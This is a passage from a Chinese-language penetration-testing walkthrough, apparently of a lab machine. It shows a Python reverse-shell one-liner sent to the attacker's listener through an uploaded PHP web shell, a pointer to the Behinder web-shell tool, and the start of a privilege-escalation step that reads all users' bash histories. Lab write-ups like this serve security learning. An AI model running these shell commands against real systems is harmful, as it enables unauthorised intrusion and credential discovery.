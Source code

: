 [![](assets/1699929525-f462a44d0d7692317300c446f5661396.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231112140506-6d61ed2e-8121-1.png)

kali监听，在cmd参数输入python反弹shell

```plain
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("192.168.179.141",1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```

访问：[https://192.168.179.149:12380/blogblog/wp-content/uploads/exec.php?cmd=python](https://192.168.179.149:12380/blogblog/wp-content/uploads/exec.php?cmd=python) -c 'import socket,subprocess,os;s=socket.socket(socket.AF\_INET,socket.SOCK\_STREAM);s.connect(("192.168.179.141",1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(\["/bin/sh","-i"\]);'

[![](assets/1699929525-18f29a1e4a672f2812b3975157685634.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231112140524-77f2f8be-8121-1.png)

获得shell

### 文件上传冰蝎获取shell

这里也可以使用冰蝎来获取shell  
冰蝎下载地址：[Release Behinder\_v3.0\_Beta\_11: Update README.md · rebeyond/Behinder · GitHub](https://github.com/rebeyond/Behinder/releases/tag/Behinder_v3.0_Beta_11)

## 权限提升

### sudo提权

查看各个用户的历史命令获取更多信息， .bash\_history 命令操作日志

```plain
cat /home/*/.bash_history | grep -v exit
```

